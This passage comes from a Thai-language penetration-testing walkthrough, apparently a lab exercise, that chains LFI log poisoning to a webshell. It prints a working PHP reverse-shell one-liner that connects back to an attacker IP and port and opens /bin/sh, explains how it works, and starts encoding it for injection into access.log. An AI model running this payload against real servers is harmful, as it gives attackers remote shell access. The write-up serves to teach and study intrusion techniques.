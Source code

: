 ```bash
www-data
```

![log](images/15.png)

แสดงว่า Webshell ของเราทำงานเรียบร้อยแล้ว และสามารถใช้คำสั่งต่อได้ เช่น ls, id, uname -a เป็นต้น

### 🐚 2.9 เตรียม Reverse Shell ด้วย PHP
> หลังจากที่เราทดสอบแล้วว่าคำสั่ง `whoami` ทำงานได้ผ่าน Webshell ที่ฝังใน log (access.log)
ขั้นตอนต่อไปคือการยิง Reverse Shell เพื่อเข้าควบคุมเครื่องเป้าหมายจากระยะไกล

🔧 เครื่องมือที่ใช้:
เราจะใช้ Pentestmonkey ซึ่งเป็นเว็บไซต์รวม Cheat Sheet สำหรับ Web Shell และ Reverse Shell
  [Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

🧾 โค้ด Reverse Shell (ภาษา PHP):

24. ทำการ copy Payload ดังกล่าว:

```bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

![shell](images/16.png)

- `fsockopen()` เปิดการเชื่อมต่อ TCP ไปยัง IP/Port ที่เราระบุ
- `exec()` จะเรียกใช้งาน shell `(/bin/sh -i)` แบบ interactive
- เมื่อฝังโค้ดนี้ลงใน Log และโหลดผ่าน LFI → เซิร์ฟเวอร์จะเชื่อมกลับมาที่เครื่องเรา

⚠️ หมายเหตุ:
- ก่อน copy โค้ดจากเว็บให้ เปลี่ยน IP (`10.0.0.1`) และ Port (`1234`) ให้เป็นของเครื่องเราจริงๆ

### 🧬 2.10 แปลง Payload ให้พร้อมฝังลง Log
> หลังจากที่ได้คำสั่ง reverse shell แล้ว ขั้นตอนต่อไปคือการ encode payload เพื่อให้สามารถฝังลงใน log file ได้อย่างปลอดภัยและไม่ผิด syntax

25. ใช้ CyberChef:
    
เราจะใช้ CyberChef ซึ่งเป็นเครื่องมือออนไลน์ที่ช่วยในการเข้ารหัส/ถอดรหัส วิเคราะห์ข้อมูล ฯลฯ

✅ ขั้นตอน:
1. นำ payload ที่ได้มา:
